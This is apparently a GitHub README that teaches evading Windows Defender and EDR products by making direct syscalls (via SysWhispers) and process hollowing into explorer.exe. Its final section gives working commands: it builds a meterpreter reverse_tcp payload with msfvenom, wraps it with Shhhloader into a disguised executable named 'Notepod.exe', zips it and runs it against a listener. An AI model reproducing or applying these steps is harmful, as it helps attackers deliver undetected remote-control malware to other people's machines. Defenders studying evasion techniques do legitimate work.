 # Defeat Windows Defender using direct Syscall

## Protection rings


![image](https://user-images.githubusercontent.com/76106120/151554524-e5d661f2-6d22-4051-a2bf-40367cf6ac2f.png)


Windows os as some security rings in order to avoid any one to access critical memory region.
There is the user-mode where the application are running (ring 3) and the kernel mode (ring 0) with the critical system components.
Some resources cannnot be accessed by specific application in order to prevent malicious behavior.

Application are isolated from critical memory section and system resources are running in Kernel Mode.
To make the translation between user mode and kernel mode there is an dll called ntddl.dll.
Ntddl.dll gives the right Api call perform by the user mode, thanks to that the kernel can make the right system call.

#### In the image just below, you can see how the user mode and the kernel mode interract :
 
![image](https://user-images.githubusercontent.com/76106120/151559138-3b33e231-e4a8-4af7-a561-c34278648b02.png)
 
 
The AV/EDR products knows that the sensitive spot is when the ntdll.dll give the syscall number to execute to the kernel mode.
If an AV/EDR recognize strange syscall, they will hook the API.
 
To bypass this, it is possible to make direct system call. We can execute system call without using the ntdll.dll.
This is where the SysWhisper projet will be useful to us. With syswhisper you are able to generate file Syscall.h who contain all the syscall of each windows operating system.
SysWhisper gives us all the syscall that we need for any type of os, with that we are able to make direct syscall as if they were normal Native API functions.
We do not need to pass thought the ntdll.dll, a therefore to pass under the radar of AV/EDR.

### Let's take an example :

If we want to use the NT system call CreateFile, we should call the NtCreateFile located in the ntdll.dll. But instead of this we are directly invoking SysNtCreateFile.

![image](https://user-images.githubusercontent.com/76106120/151571082-cb09f257-e154-4329-9f3f-13b1e06cc1ca.png)

 
The AV/EDR product could not hook the API because we are not using API calls, we are using direct syscall.
So the AV/EDR cannot intercept our attemps and we would have opened it succesfully 🙂

### Process Hollowing

Now that we are able to use NT system call under the radar of AV/EDR products.
We want to run our shellcode.

How it's working:

1) Create the target process (ex: explorer.exe) in a suspended state.

2) Parse the create process in order to find the EntryPoint

3) Then Write the shellcode to the EntryPoint and resume the thread execution.

 
## Shhhloader project (https://github.com/icyguider/Shhhloader):

> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw -o tesssssst.bin
 
> ./Shhhloader.py tesssssst.bin -p explorer.exe -o Notepod.exe
 
> zip Notepod.exe Doc.zip
 
 - Drag and drop .zip in your Windows machine.
 - Start meterpreter listener and set payload to windows/x64/meterpreter/reverse_tcp (Shhhloader only support staged payload, so you have to provide it the right one !!!)
 - run the Notepod.exe
 
![image](https://user-images.githubusercontent.com/76106120/151585465-b865ca49-7b58-4077-84a4-28c4b540e332.png)

 
 
 
 




